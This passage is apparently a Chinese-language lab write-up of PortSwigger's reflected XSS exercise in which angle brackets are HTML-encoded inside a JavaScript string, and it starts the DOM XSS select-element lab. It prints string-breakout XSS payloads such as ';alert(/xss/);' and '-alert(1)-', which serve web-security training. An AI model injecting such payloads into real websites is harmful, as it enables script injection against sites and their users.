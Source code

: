 

















### 9.[Reflected XSS into a JavaScript string with angle brackets HTML encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded)



JavaScript字符串中带尖括号编码的反射型XSS





搜索框输入`<script>alert(/xss/)</script>`，发现尖括号被进行了html编码。



![image-20250306141556803](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20250306141556803.png)





不使用尖括号，闭合前后的单引号，并且构造成一个完整js语句，触发XSS弹窗。

```
';alert(/xss/);'

'-alert(1)-'

```



![](../../../../../Library/Application Support/typora-user-images/image-20250306141640436.png)





![image-20250306141702688](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20250306141702688.png)











### 10.从URL获取参数写到select元素内的DOM型XSS

DOM XSS in document.write sink using source location.search inside a select element
